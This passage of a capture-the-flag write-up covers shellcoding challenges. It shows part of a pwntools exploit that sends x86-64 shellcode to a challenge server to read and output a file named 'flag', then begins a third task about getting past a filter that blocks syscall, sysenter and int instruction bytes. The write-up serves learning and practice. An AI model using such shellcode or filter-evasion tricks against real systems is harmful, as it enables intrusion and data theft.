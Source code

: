 ```python
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 34832)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(setup)
pause(1)
p.send(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Task 3

Same procedure used with the first two challenges, we edit the port value in 'boilerplate.py' and navigate to the target webpage. This time we notice that the stdin bytes are back to 0x1000 but there is new text that states that now syscalls in all their forms are filtered out before, and only before, runtime. The filter only looks for the specific bytes of syscall (0x0f05), sysenter(0x0f34) and int (0x80).
There are also other lines which contiain helpful hints to solve this challenge.
The answer of this challenge lies in how syscalls are actually executed. I we look at the output of the previous challenge:
![Screenshot of the executed shellcode](images/img2.png)
